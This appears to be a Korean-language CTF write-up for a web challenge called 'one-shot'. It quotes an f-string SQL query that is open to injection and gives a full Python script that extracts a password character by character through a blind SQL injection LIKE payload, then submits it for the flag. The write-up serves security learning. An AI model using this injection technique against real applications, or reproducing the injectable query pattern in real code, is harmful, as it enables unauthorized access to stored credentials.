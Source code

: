 `query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")` 쿼리문에서 SQL Injection 취약점이 발생한다. `UPDATE table_{id} SET searched = 1` 쿼리에 의해 같은 `id` 값으로는 `/search` 경로에 접근이 한 번만 가능하다.    

하지만, 접근 횟수 문제는 `/new_session`을 통해 새로운 `id` 값을 받아주면 된다. Injection Query에서 `table_{id}` 값을 지정해주면 패스워드를 알아낼 수 있다.        
                    
### Exploit Code 
```python
import requests 

url = "http://one-shot.amt.rs"

s = requests.Session() 

chars = "1234567890abcdef"
pw = ""
for i in range(32):
    for c in chars: 
        r = s.post(f"{url}/new_session") 
        id = r.text[r.text.find("id")+24:r.text.find("id")+40]
        qry = f"' AND (SELECT password FROM table_2f78e058112a0008 WHERE password LIKE '{pw + c}%') AND password LIKE '%"
        print(qry)
        r = s.post(f"{url}/search", 
                    data={
                        "id": f"{id}",
                        "query": qry
                    })
        if "*" in r.text:
            pw += c
            print(pw)

# FLAG 
url = "http://one-shot.amt.rs"
r = requests.post(f"{url}/guess", 
                  data={
                      "id":"2f78e058112a0008",
                      "password": pw
                  })
print(r.text)
```       
<img src="/assets/images/ctf/2024/amateurs/one-shot/flag.jpg" width="700px">     
       